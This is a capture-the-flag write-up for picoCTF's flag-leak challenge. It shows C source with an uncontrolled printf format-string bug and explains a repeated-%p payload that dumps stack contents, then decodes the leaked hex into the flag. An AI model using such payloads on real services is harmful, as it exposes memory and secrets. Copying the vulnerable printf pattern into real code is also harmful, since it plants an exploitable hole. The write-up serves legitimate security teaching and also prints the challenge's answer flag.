 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/qugoytN.png
points: 300
solves: 2308
tags: pwn pwn/format-string
date: 1337-01-01
comments: false
---
```


Story telling class 1/2  
I'm just copying and pasting with this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/flag-leak-vuln). What can go wrong? You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/flag-leak-vuln.c) here. And connect with it using:  
`nc saturn.picoctf.net [port #]`  

---

We're given a binary ELF file and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Hold on, we're calling `readflag()` during our program execution in `vuln()` -- doesn't that mean that the flag, i.e. `FILE *f`, will be stored in the stack? Since it is a local variable declared and initialized during the function call, the actual values of the flag should definitely be located somewhere in the stack. Let's test our theory out in GDB.  

First create a `flag.txt` and fill it with some text you'll recognize, enable `vuln`'s execution, and launch GDB.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">chmod +x vuln
nano flag.txt
gdb vuln</code>
</pre>

Now let's set a breakpoint after input is received to see what stack offset our input is at and if the flag is in the stack.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">disass vuln 
b *vuln+95 # inserts breakpoint at the `<puts@plt>` function call
r
x/100x $esp # outputs current stack for 100 bytes</code>
</pre>


After the following sequence of commands, you will notice that  user input lies at `$esp+0x10` and the flag lies at some later offset in the stack depending on the size of the user input.    

Since the flag lies on the stack, we can make use of the format string `%p`, the format specifier for addresses, to output bytes on the stack and thus obtain the flag.  
Submit a payload of `%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p` to the program (this can be easily written by activating python in terminal and writing `print(‘%p’*N)`, where N is the number of %p’s you need. The maximum of N is 63, in this case, as the scanf function has a buffer of 127 bytes.)  
Note that each %p outputs 4 bytes on the stack. Since each %p itself takes up 2 bytes on the stack, each %p we add is essentially letting us look an additional 2 bytes into the stack.  
Remove the `0x`'s and `(nil)`'s and put it into a hex to ascii converter.  
Notice that the hex string `6f6369707b4654436b34334c5f676e3167346c466666305f3474535f395f6b63303666357d373136` should return the ascii string:  

    ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716

Every four characters is reversed due to little endianness, thus, to get the flag, reverse every group of four characters to return:  

    picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
